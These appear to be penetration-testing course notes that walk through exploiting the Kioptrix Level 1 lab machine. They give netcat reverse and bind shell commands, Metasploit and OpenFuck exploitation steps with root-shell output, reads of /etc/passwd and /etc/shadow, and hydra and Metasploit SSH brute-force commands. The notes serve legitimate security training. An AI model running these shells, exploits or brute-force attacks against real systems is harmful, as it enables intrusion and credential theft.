 # Exploitation Basics

## Reverse Shells vs Bind Shells

### netcat

- reverse shell: a victim connects to us, we executes a linux bin shell when it connects, we're listening. 95% of cases.
- bind shell: we connect to a port on the target, the victim is listening. Uesful to bypass firewalls.

Reverse shell:

1. open a port: `nc -nvlp 4444`
2. `nc 192.168.92.128 4444 -e /bin/bash`

Bind shell:

1. `nc -nvlp 4444 -e /bin/bash`
2. connect to our victim: `nc 192.168.92.128 4444`

Note: `4444` is often blacklisted by antiviruses and firewalls.

## Staged vs Non-Staged Payloads

- non-staged payload: sends exploit shellcode all at once (large size, won't always work) (windows/meterpreter_reverse_tcp)
- staged payload: sends in stages (can be less stable), metasploit identifies them with an extra / (windows/meterpreter/reverse_tcp)

if one type is not working, try the other one.

## Gaining Root with Metasploit

1. run `msfconsole`
2. `search trans2open`, look for the targeted OS
3. `use 1`, then `options` to know which options to provide
4. `set rhosts 192.168.92.129`, then `options` again to check if it's set and `show targets`
5. type `run` or `exploit`, the payload is the issue, `options` again.
6. `set payload linux/x86/shell_reverse_tcp` with autocompletion to know our options, now it's a non-staged payload. `options` again to check if it's set.

we're in:

```
whoami
root
hostname
kioptrix.level1
```

## Manual Exploitation

With OpenFuck:

1. `git clone https://github.com/heltonWernik/OpenFuck.git && cd OpenFuck`
2. `apt install libssl-dev`
3. `gcc -o open OpenFuck.c -lcrypto`
4. `./open` to know the options you have to pass
5. `./open 0x6b 192.168.92.129 -c 40`, we know the type of machine thanks to our enumeration work, no port needed because we don't use ssl.

```
whoami
root
hostname
kioptrix.level1
```

Metasploit is more robust. OSCP certification exam doesn't allow Metasploit. Pen testers look for practicality.

- `sudo -l` to know our privileges.
- `cat /etc/passwd` to see passwords (only x placeholders, starting at 500 we have usernames: `john` and `harold`).
- `cat /etc/shadow` with hashes.

Post-exploitation: a new work of enumeration starts.

## Brute Force Attacks

### SSH

3 reasons to do that in an assessment:

1. test password strength
2. test if we can go in with a weak/default password
3. does the blue team catch us when brute forcing? (being loud sometimes to test the other team)

### hydra

- `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.92.129:22 -t 4 -V`, -V for verbosity, -t for threads.

### metasploit

- run `msfconsole`, then `search ssh`
- `use auxiliary/scanner/ssh/ssh_login` then `options`
- `set username root` and `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt` and `set rhosts 192.168.92.129` and `set threads 10` (would be detected super fast) and `set verbose true`.
- `run` or `exploit`

## Credential Stuffing and Password Spraying

## Our Notes, Revisited
